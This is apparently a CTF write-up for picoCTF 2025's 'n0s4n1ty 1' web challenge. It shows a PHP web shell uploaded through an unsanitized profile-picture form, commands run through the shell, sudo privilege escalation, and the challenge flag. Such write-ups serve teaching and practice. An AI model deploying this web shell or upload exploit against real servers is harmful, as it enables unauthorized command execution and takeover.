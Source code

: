 # n0s4n1ty 1 - Web Exploitation (picoCTF 2025)

## Challenge Overview
- **Category**: Web Exploitation
- **Points**: 100
- **Author**: Prince Niyonshuti N.
- **Challenge URL**: [picoCTF n0s4n1ty 1](http://standard-pizzas.picoctf.net:57009/)

In this challenge, the task is to exploit a web vulnerability in a file upload functionality. By uploading a malicious PHP file, we gain the ability to run arbitrary commands on the server, ultimately allowing us to retrieve the flag stored in the `/root` directory.

## Steps to Solve

### 1. **Identify the Vulnerability**
   The challenge presents a file upload feature where a user can upload a profile picture. However, there is a flaw in the implementation: the uploaded files are not sanitized, which means we can upload arbitrary files, including PHP scripts.

### 2. **Upload a Malicious PHP Web Shell**
   The first step is to upload a PHP shell to the server. We can use the following PHP code for a simple web shell:

   ```php
   <?php
   if(isset($_GET['cmd'])){
       echo "<pre>";
       $cmd = $_GET['cmd'];  // Get command from the query string
       system($cmd);         // Execute the command and display output
       echo "</pre>";
   }
   ?>
   ```

   This shell allows us to execute commands on the server by appending `cmd=<command>` to the URL.

### 3. **Find the URL of the Uploaded Shell**
   After successfully uploading the PHP shell, the file is placed in the `uploads` directory on the server. The URL to access the shell will typically look like:

   ```
   http://standard-pizzas.picoctf.net:57009/uploads/shell.php
   ```

### 4. **Execute Commands via the Shell**
   Now that we have a web shell, we can start executing commands on the server. Begin by checking the current user:

   ```
   http://standard-pizzas.picoctf.net:57009/uploads/shell.php?cmd=whoami
   ```

   The response should show that the current user is `www-data`.

### 5. **Check for Sudo Permissions**
   Next, we check if the `www-data` user has permission to execute commands as `root`. This can be done by running:

   ```
   http://standard-pizzas.picoctf.net:57009/uploads/shell.php?cmd=sudo -l
   ```

   The response should show that `www-data` has `NOPASSWD` permissions, meaning it can run any command as `root` without a password:

   ```
   User www-data may run the following commands on challenge:
       (ALL) NOPASSWD: ALL
   ```

### 6. **Retrieve the Flag**
   Since we now have the ability to run commands as `root`, we can retrieve the flag stored in the `/root/flag.txt` file by running the following command:

   ```
   http://standard-pizzas.picoctf.net:57009/uploads/shell.php?cmd=sudo cat /root/flag.txt
   ```

   The output will display the flag:

   ```
   picoCTF{wh47_c4n_u_d0_wPHP_4043cda3}
   ```

### 7. **Flag**
   The flag for this challenge is:

   ```
   picoCTF{wh47_c4n_u_d0_wPHP_4043cda3}
   ```

## Summary of Exploit
- **Exploited Vulnerability**: File upload functionality without proper sanitization.
- **Exploited Method**: Uploaded a PHP web shell that allowed command execution.
- **Privilege Escalation**: Used `sudo -l` to verify that `www-data` had `NOPASSWD` privileges, allowing us to run commands as `root`.
- **Final Goal**: Retrieved the flag by running `sudo cat /root/flag.txt`.
